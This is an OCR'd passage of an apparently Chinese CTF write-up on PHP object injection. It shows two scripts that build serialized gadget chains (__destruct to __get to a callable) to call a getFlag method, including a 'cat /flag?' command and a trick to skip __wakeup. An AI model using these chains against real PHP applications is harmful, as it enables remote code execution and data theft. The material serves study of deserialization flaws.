 ```php
    public function __wakeup(){
        echo "serialize me?";
    }
}

class A{
    public $a;
    public function __get($p){
        if(preg_match("/Test/",get_class($this->a))){
            return "No test in Prod\\n";
        }
        return $this->a->$p();
    }
}

class B{
    public $p;
    public function __destruct(){
        $p = $this->p;
        echo $this->a->$p;
    }
}

$k1 = new B();
$k2 = new A();
$k1->a = $k2;
$k1->p = "cat /flag?";
$k2->a = new Fun();

//数组利用gc回收机制
echo urlencode(serialize(array($k1,1)));
```

还有个是直接进入`getFlag`的函数里

这个位置是在`call_user_func`调用方法时，是通过`$this->func = [new Test,'getFlag']`这种形式来直接引用类中的方法

```php
<?php
class Fun{
 private $func;
 public function __construct(){
 $this->func = [new Test,'getFlag'];//也可以写为$this->func = "Test::getFlag";这样由于没
有实例化Test类，还不会触发Test⾥的__wakeup()
 }
}
class Test{
 public function getFlag(){
 }
}
class A{
 public $a;
}
class B{
 public $p;
}
$Test = new Test;
$Fun = new Fun;
$a = new A;
$b = new B;
$a->a = $Fun;
$b->a = $a;
$r = serialize($b);
//绕过wakeup
```
